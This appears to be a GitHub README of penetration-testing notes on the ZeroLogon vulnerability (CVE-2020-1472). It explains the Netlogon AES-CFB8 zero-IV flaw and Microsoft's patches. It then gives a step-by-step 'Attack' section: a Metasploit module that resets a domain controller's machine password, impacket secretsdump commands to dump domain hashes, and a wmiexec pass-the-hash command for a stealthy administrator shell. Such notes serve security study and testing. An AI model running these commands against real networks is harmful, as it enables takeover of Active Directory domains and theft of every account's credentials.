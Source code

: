 ## ZeroLogon
### Into
CVE-2020-1472

The core of the vulnerability lies in a poor implementation of the ComputeNetlogonCredential call of the Netlogon Remote Protocol (MS-NRPC). The ComputeNetlogonCredential takes an 8-byte challenge as an input, performs a cryptographic transformation using a session key (which proves knowledge of the computer secret), and outputs an 8-byte result. The issue lies in an implementation flaw in the newer method AES-CFB8 (which is also the only one allowed in newer Windows versions) which is used to perform this transformation.  
In order to use AES-CFB8 securely, a random initialization vector (IV) needs to be generated for every plaintext to be encrypted using the same key. However, the ComputeNetlogonCredential function sets the IV to a fixed value of 16 zero bytes. This results in a cryptographic flaw in which encryption of 8-bytes of zeros could yield a ciphertext of zeros with a probability of 1 in 256. Another implementation issue that allows this attack is that unencrypted Netlogon sessions aren’t rejected by servers (by default). The combination of these two flaws could allow an attacker to completely compromise the authentication, and thus to impersonate a server of their choice.*  
(* https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/)
### Defense
Pierwszy etap został wydany 11 sierpnia (Patch Tuesday) w formie aktualizacji zabezpieczeń, która uniemożliwi kontrolerom domeny Windows Active Directory korzystanie z niezabezpieczonej komunikacji RPC.  
9 lutego 2021 r., W ramach kolejnej aktualizacji Patch Tuesday, Microsoft wyda drugą aktualizację, , która wymaga, aby wszystkie urządzenia w sieci korzystały z bezpiecznego RPC.  

### Impact
Password hashes
Shell
### Long impact
Golden Ticket attack  
Pass-the-Hash attack  
Silver Ticket attack  
### Attack
1. Check e.g. https://github.com/SecuraBV/CVE-2020-1472.git
2. Clear machine password.
Best effect (for me) with metasploit module.  
``auxiliary/admin/dcerpc/cve_2020_1472_zerologon``  
params: *set NBNAME _DOMAIN_CONTROLER_NAME_ set RHOSTS _IP_DOMAIN_CONTROLER_*  
3. Hashes dump  
``python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc '_DOMAIN_NAME_/_DOMAIN_CONTROLER_NAME_$@_IP_DOMAIN_CONTROLER_'``  
or  
``python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 '_DOMAIN_NAME_/_DOMAIN_CONTROLER_NAME_$@_IP_DOMAIN_CONTROLER_'``  
4. Remote shell  
*wmiexec.py: A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.*
``python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes _ADMIN_HASHES_ _ADMIN_@_IP_DOMAIN_CONTROLER_``



